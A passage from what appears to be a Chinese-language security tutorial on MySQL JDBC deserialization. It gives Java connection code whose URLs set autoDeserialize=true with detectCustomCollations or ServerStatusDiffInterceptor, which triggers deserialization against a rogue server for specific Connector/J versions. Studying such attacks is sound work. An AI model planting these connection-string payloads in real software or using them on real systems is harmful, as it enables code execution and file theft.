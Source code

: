 使用`detectCustomCollations`触发

```java
String driver = "com.mysql.jdbc.Driver";
String user = "Jdk8u181";
String password = "xxxx";
String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true";
Class.forName(driver);
Connection conn = (Connection) DriverManager.getConnection(DB_URL,user,password);
```

![image-20240907114740743](18.MYSQL任意文件读取.assets/image-20240907114740743.png)

### 5.1.28

针对`5.1.28` payload使用`ServerStatusDiffInterceptor`触发

```java
String driver = "com.mysql.jdbc.Driver";
String user = "Jdk8u181";
String password = "xxxx";
String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor";
Class.forName(driver);
Connection conn = (Connection) DriverManager.getConnection(DB_URL,user,password);
```
